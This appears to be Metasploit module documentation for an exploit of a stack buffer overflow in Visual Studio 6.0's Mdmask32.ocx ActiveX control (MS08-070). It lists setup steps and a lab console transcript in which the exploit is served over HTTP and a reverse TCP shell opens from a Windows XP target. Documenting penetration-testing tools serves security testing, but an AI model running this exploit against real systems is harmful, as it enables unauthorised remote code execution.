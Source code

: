 ## Vulnerable Application

This module exploits a stack buffer overflow in Microsoft Visual
Studio 6.0. When passing a specially crafted string to the Mask
parameter of the Mdmask32.ocx ActiveX Control, an attacker may
be able to execute arbitrary code.


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/browser/ms08_070_visual_studio_msmask`
1. Do: `set SRVHOST [host]`
1. Do: `set SRVPORT [port]`
1. Do: `set URIPATH [uri]`
1. Do: `set PAYLOAD [payload]`
1. Do: `run`
1. Open the server URL on a vulnerable system


## Options

### URIPATH

The server URI path to use. (default: `/`)


## Scenarios

### Windows XP SP3 (x86) (English)

```
msf6 > use exploit/windows/browser/ms08_070_visual_studio_msmask
[*] Using configured payload windows/shell/reverse_tcp
msf6 exploit(windows/browser/ms08_070_visual_studio_msmask) > set srvhost 0.0.0.0
srvhost => 0.0.0.0
msf6 exploit(windows/browser/ms08_070_visual_studio_msmask) > set srvport 8080
srvport => 8080
msf6 exploit(windows/browser/ms08_070_visual_studio_msmask) > set lhost 192.168.200.130 
lhost => 192.168.200.130
msf6 exploit(windows/browser/ms08_070_visual_studio_msmask) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] Using URL: http://192.168.200.130:8080/
[*] Server started.
msf6 exploit(windows/browser/ms08_070_visual_studio_msmask) > 
[*] 192.168.200.173  ms08_070_visual_studio_msmask - Sending Microsoft Visual Studio Mdmask32.ocx ActiveX Stack Buffer Overflow
[*] Sending stage (240 bytes) to 192.168.200.173
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.173:1052) at 2025-06-22 03:01:18 -0400
```
